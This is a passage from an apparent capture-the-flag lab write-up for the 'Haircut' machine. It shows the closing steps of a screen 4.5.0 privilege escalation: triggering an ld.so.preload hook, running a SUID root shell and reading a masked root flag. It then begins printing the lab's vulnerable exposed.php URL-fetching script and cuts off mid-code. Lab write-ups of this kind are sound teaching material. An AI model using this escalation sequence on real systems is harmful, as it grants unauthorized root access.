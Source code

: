     /tmp/libhax.so



Now I'll get root to run something by running `screen -ls`:



    www-data@haircut:/etc$ screen-4.5.0 -ls
    No Sockets found in /tmp/screens/S-www-data.



`ld.so.preload` has been cleaned up:



    www-data@haircut:/etc$ ls ld.so.preload
    ls: cannot access 'ld.so.preload': No such file or directory



And the `rootshell` is now SUID:



    www-data@haircut:/etc$ ls -l /tmp/rootshell 
    -rwsr-xr-x 1 root root 16824 Sep  4 04:23 /tmp/rootshell



I can get a shell as root:



    www-data@haircut:/etc$ /tmp/rootshell 
    # id
    uid=0(root) gid=0(root) groups=0(root),33(www-data)



And print `root.txt`:



    root@haircut:/root# cat root.txt
    4cfa26d8************************



## Beyond Root

A quick check to see what the filtering actually was in `exposed.php`.
The entire script was pretty short:



    .md>
        <head>
        <title>Hairdresser checker</title>
        </head>
        <body>
        <form action='exposed.php' method='POST'>
        <span>
        <p>
        Enter the Hairdresser's location you would like to check. Example: http://localhost/test.md
                    </p>
                    </span>
                    <input type='text' name='formurl' id='formurl' width='50' value='http://localhost/test.md'/>
    <input type='submit' name='submit' value='Go' id='submit' />
        </form>
        <span>
        <?php 
        if(isset($_POST['formurl'])){
            echo "<p>Requesting Site...</p>"; 
            $userurl=$_POST['formurl'];
            $naughtyurl=0;
